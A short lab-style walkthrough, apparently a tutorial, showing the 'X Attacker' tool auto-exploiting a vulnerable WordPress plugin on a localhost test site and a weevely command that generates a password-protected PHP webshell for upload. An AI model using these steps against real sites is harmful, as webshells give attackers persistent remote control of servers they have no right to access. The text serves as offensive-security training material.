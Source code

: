 

"X Attacker" got several modes, the easiest one is a list of sites from file, which in this case is "sites.txt" with the URL "http://127.0.0.1/wordpress/".

The tool is automatic and the next output is a list of exploits and whether they worked or not.


![image](xattacker_blaze_hack.png)


The site has the "Blaze" vulnerability and "X Attacker" auto hacked the site and gives link[?] for uploading of webshell. Visiting the link with the PHP file uploaded by XA looks like this in the browser:


![image](xattacker_shell_upload.png)


To upload a shell, "weevely" is utilized:

```
$ weevely generate verystrongpassword /<output>/<directory>/<shell file name>.php
```

The result will look similar to this screenshot:


![image](weeve_gen_shell.png)

